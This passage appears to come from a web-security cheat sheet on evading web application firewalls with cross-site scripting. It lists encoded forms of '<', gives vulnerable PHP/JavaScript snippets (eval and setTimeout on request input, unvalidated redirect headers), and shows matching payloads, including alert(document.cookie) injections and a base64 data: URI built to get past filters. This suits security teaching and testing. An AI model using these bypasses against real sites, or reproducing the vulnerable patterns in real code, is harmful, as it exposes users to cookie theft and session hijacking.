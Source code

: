 -   `&#X03C;` -   `&#X003C;`
-   `&#X0003C;` -   `&#X00003C;`
-   `&#X000003C;` -   `&#X3C;`
-   `&#X03C;` -   `&#X003C;`
-   `&#X0003C;` -   `&#X00003C;`
-   `&#X000003C;` -   `\x3c`
-   `\x3C` -   `\u003c`
-   `\u003C` 
## Methods to Bypass WAF -- Cross-Site Scripting 
### General issues 
#### Stored XSS 
If an attacker managed to push XSS through the filter, WAF wouldn't be able to prevent the attack conduction.
 #### Reflected XSS in JavaScript
 Example:
 
```
    <script> ... setTimeout(\\"writetitle()\\",$\_GET\[xss\]) ... </script> 
```
 Exploitation:
 
```
    /?xss=500); alert(document.cookie);// 
```
 #### DOM-based XSS
 Example:
 
```
    <script> ... eval($\_GET\[xss\]); ... </script> 
```
 Exploitation:
 
```
    /?xss=document.cookie 
```
 #### XSS via request Redirection
 Vulnerable code:
 
```
    ...     header('Location: '.$_GET['param']);
    ... 
```
 As well as:
 
```
    ...     header('Refresh: 0; URL='.$_GET['param']);
    ... 
```
 This request will not pass through the WAF:
 
```
    /?param=<javascript:alert(document.cookie>) 
```
 This request will pass through the WAF and an XSS attack will be
conducted in certain browsers: 
```
     /?param=<data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=
```
 